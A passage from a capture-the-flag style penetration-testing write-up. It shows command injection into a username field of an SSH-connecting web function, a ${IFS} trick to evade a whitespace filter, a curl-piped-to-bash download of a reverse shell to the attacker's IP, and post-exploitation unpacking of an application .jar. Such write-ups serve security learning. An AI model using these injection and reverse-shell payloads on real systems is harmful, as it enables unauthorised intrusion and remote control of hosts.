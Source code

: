 So I suppose that this function tries to connect to a host using a private ssh key like:

```shell
ssh -i ird_rsa username@hostname
```

So I'll try some command injections against the `username` field:

```shell
# First I set up a python server
python3 -m http.server 8090
user;curl http://10.10.14.21:8090;
```

![](Pasted%20image%2020250208221031.png)

I got an error so that username can't contain whitespaces, so I'll use `${IFS}`, which is a Unix Environment Variable that stans for Internal Field Separator
- For more info check [Unix Environment Variables 🌋](/notes/Linux%20things/special_unix_environment_variables.md)

```shell
user;curl${IFS}http://10.10.14.21:8090;
```

Got the request!

![](Pasted%20image%2020250208221453.png)

## Exploitation

So now I can create a reverse shell in my machine, upload to the host and then execute it:

```shell
# First, create the shell in our machine
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.21/666 0>&1' > shell.sh
# Now download it in the host (Command Injection) and execute it
user;curl${IFS}http://10.10.14.21:8090/shell.sh|bash;
```

> Got a reverse shell :D

![](Pasted%20image%2020250208222230.png)

## Pivoting

There is a user called `josh` int the machine. Also, there is a `.jar` file inside the `/app` directory called `cloudhosting-0.0.1.jar`. We can extract the content of the `.jar` to examine it:

```shell
unzip -d /dev/shm cloudhosting-0.0.1.jar

ls -la
total 28
drwxrwxrwt  5 root     root       120 Feb  8 21:28 .
drwxr-xr-x 19 root     root      3980 Feb  7 18:34 ..
drwxr-xr-x  4 app      app        120 Aug 10  2023 BOOT-INF
drwxr-xr-x  3 app      app         80 Aug 10  2023 META-INF
drwxr-xr-x  3 app      app         60 Feb  1  1980 org
-rw-------  1 postgres postgres 26976 Feb  7 18:34 PostgreSQL.3698546292
```
